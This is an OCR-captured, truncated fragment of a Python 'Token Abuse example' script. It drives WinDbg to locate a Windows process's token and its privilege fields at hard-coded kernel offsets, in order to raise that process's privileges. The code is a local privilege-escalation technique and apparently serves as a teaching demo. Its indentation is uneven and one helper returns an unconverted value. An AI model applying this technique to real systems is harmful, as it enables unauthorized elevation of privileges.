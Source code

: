 ```!process 0 0 cmd.exe```
            print("Process not found.")
    return None


def find_token_address(token):
 # Find the position of the colon
        colon_pos = token.index(':')
        
        # Extract the address part after the colon
        memory_address = token[colon_pos + 1:].strip().split()[0]
        
        # Remove the backtick and combine the parts
        memory_address = memory_address.replace('`', '')

        # Convert the memory address to an integer
        memory_address_int = int(memory_address, 16)
        
        # Zero out the last 4bits by masking with 0xFFFFFFFFFFFFFFF0
        adjusted_memory_address_int = memory_address_int & 0xFFFFFFFFFFFFFFF0
        
        # Convert the adjusted memory address back to a hexadecimal string
        adjusted_memory_address = hex(adjusted_memory_address_int)

        print(f"find token in address: {adjusted_memory_address}")

        return adjusted_memory_address

def get_present_privileges(token_privileges):
        # Find the position of the first colon that is the present privileges
        colon_pos = token_privileges.index(':')
        
        # Extract the value part after the colon
        present_value = token_privileges[colon_pos + 1:].strip().split()[0]
        
        # Convert the extracted value to an integer
        present_privileges = int(present_value.replace('`', ''), 16)

        return present_value


#The offset of the token in my windows version is 0x4B8
TOKEN_OFFSET = 0x4b8

#The offset of the privileges in my windows version is 0x40
PRIVILEGES_OFFSET = 0x40

#The offset of the present values of privileges in my windows version is 0x08
ENABLED_OFFSET = 0x08

def main():
    # Print Title
    print("Token Abuse example")
    
    # Ask user the name of the process
    process = input("Please enter the name of the process you want to increase the privileges: ")

    if find_process(process):
        # If the process is running, continue
        print(f"Get process info for: {process}")
        
        # Execute the WinDbg command !process 0 0 and get the output
        windbg_command = f"!process 0 0 {process}"
        try:
```